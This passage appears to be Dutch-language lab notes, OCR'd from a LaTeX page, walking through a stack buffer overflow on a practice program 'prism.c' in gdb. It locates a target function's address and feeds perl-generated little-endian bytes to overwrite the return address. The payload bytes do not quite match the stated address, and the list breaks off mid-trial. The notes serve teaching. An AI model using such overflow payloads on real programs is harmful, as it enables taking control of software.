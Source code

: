 \begin{enumerate}
  \item gcc-3.3 -o prism prism.c
  \item gdb -q prism 
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 2 argumenten: \textless IP-address\textgreater \textless password\textgreater
  		\item pw
  		\item return\_val == 0
 		\item Het return adres moet overschreven worden met het adres van de gegevens functie
  		\end{enumerate}
  	\end{enumerate}
  \item set disassembly-flavor intel
  	\begin{enumerate}
  	\item Disassembly taal naar intel zetten
  	\end{enumerate}
  \item disass gegevens
  	\begin{enumerate}
  	\item 0x08048481
  	\item Dit adres moet het return-adres van de main functie overschrijven
  		\begin{enumerate}
  		\item Let op: Little Endian
  		\end{enumerate}
  	\end{enumerate}
  \item Trial and error
  	\begin{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x2')''
  		\begin{enumerate}
  		\item Program exited normally
  		\end{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x3')''
  		\begin{enumerate}

\end{enumerate}
\end{enumerate}
\end{enumerate}
